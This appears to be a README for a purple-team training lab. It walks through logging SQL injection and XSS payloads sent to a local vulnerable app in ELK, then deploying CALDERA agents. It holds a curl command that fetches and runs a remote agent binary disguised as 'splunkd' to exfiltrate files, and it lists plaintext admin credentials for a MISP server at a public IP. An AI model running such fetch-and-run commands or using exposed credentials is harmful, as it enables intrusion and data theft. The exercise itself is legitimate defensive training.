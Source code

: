 
# Attack Anatomy

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   <img src="images/elk_index.JPG">
   
   #### Creat Index pattern  Stack Management > Index patterns
   <img src="images/create_index1.JPG">
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    <img src="images/create_index2.JPG">
    
  * Now go to Discover, you should have date visualisation like this
  <img src="images/elk_data.JPG">


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]


 
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;
chmod +x splunkd1;
./splunkd1 -server $server -group red1 -v
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;
chmod +x splunkdN;
./splunkdN -server $server -group redN -v
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>



## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>




https://github.com/kbandla/APTnotes<br>
https://github.com/center-for-threat-informed-defense/adversary_emulation_library<br>
https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/apt29/Intelligence_Summary.md<br>
https://center-for-threat-informed-defense.github.io/attack-flow/example_flows/<br>
https://docs.google.com/spreadsheets/u/1/d/1H9_xaxQHpWaa4O_Son4Gx0YOIzlcBWMsdvePFX68EKU/pubhtml?pli=1#<br>
https://github.com/mxm0z?tab=repositories<br>
https://github.com/mxm0z/awesome-threat-detection#trainings<br>
https://github.com/microsoft/msticpy<br>


https://mitre-attack.github.io/attack-navigator/<br>


https://app.box.com/s/7s2s43nlaqxllf4ugef1vyvkm3mr0ryt

 
